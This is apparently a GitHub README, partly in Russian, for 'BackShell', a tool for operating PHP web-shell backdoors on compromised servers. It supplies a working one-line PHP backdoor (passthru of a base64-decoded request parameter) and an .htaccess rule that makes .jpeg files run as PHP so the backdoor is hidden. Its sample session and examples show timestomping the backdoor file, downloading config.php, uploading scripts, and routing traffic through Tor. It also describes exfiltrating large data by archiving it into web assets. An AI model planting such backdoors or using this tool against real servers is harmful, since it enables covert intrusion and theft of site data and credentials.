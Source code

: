 # BackShell by tz4678

Command-line tool for backdoor exploitation.

```zsh
$ pip install backshell

$ backshell 'https://vuln.com/path/to/backdoor.php'
 ____             _     ____  _          _ _
| __ )  __ _  ___| | __/ ___|| |__   ___| | |
|  _ \ / _` |/ __| |/ /\___ \| '_ \ / _ \ | |
| |_) | (_| | (__|   <  ___) | | | |  __/ | |
|____/ \__,_|\___|_|\_\|____/|_| |_|\___|_|_|
v0.1.1 by tz4678

Type 'help' for more information.
backshell> touch -a -m -t 201705030100.12 backdoor.php

backshell> ls -lah
total 36K
drwxr-xr-x  5 <vanished> <vanished> 4.0K Aug  4 00:26 .
drwxr-xr-x 18 <vanished> <vanished> 4.0K Jan 17  2018 ..
-rw-r--r--  1 <vanished> <vanished>  533 May  3  2017 .jshintrc
-rw-r--r--  1 <vanished> <vanished> 2.7K May  3  2017 Gruntfile.js
-rw-r--r--  1 <vanished> <vanished>   47 May  3  2017 backdoor.php
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 images
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 js
-rw-r--r--  1 <vanished> <vanished>  466 May  3  2017 package.json
drwxr-xr-x  2 <vanished> <vanished> 4.0K May  3  2017 resource

backshell> ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
<vanished>  786766  0.1  0.0 382984 24116 ?        Ss   00:45   0:00 lsphp
<vanished>  787446  0.0  0.0 383416 10240 ?        Ss   00:46   0:00 <vanished>
<vanished>  787447  0.0  0.0   9776  1140 ?        S    00:46   0:00 sh -c ps -aux 2>&1
<vanished>  787448  0.0  0.0  49836  1652 ?        R    00:46   0:00 ps -aux

backshell> exit
```

Backdoor example:

```php
<?php @passthru(base64_decode($_REQUEST['c']));
```

Base64 нужен для обхода `magic_quotes_gpc = On`, который до сих пор много где включен, а так же для работы с бинарными данными в Node.js и т.п.

Такой простой бекдор, конечно, быстро спалят.

`.htaccess`:

```htaccess
AddType application/x-httpd-php .jpeg
```

Теперь файлы с расширением `.jpeg` будут выполняться как php.

## Examples

```zsh
# Help
backshell> help

# Download file from server
backshell> download config.php
Saved as XXXX.config.php

# Upload file to server
backshell> upload script.php

# Edit file on server
backshell> edit index.php
```

## Ограничения

Так как каждый раз запускается новая сессия шелл, то такие команды как `cd` работают не так как ожидается:

```zsh
backshell> cd /tmp; echo $PWD
/tmp

backshell> pwd
/path/to/backdoor
```

Решения:

- При запуске backshell указывать аргумент `--cwd`;
- Использовать команду шелла `cwd`.

Так же не будут работать интерактивные команды типа `less` и др.

Ограничение на длинну команды:

```zsh
$ getconf ARG_MAX
2097152
```

Чтобы скачать файл большого размера либо каталог, упакуйте его с помощью tar, переместите его в ассеты и выкачайте архив curl/wget.

Вызов команды edit при работе через torify приводит к ошибке:

```zsh
1596550567 WARNING torsocks[373221]: [syscall] Unsupported syscall number 217. Denying the call (in tsocks_syscall() at syscall.c:567)
```

Это баг torsocks и хз когда его исправят.
